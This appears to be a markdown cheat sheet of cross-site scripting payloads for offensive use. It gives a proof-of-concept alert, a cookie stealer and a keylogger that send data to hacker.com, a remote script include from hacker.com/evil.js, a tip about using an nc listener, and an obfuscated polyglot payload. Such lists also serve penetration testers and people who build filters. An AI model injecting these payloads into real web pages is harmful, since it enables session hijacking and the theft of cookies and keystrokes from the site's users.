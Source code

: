 # Cross Site Scripting
 
#### Generic proof of concept payload  
`<script>alert(document.domain);</script>`

#### Cookie stealer  
`<script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>`

#### Key logger  
`<script>document.onkeypress = function(e) { fetch('https://hacker.com/log?key=' + btoa(e.key) );}</script>`

#### External hacker-controlled script execution  
`<script src='http://hacker.com/evil.js'></script>`  
Trick: with nc listener, all HTTP request headers can also be seen when web server fetches remote js, possibly detecting other vulns, maybe CORS?

### Blind XSS
`https://xsshunter.com/`  

### Polyglots
``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e``
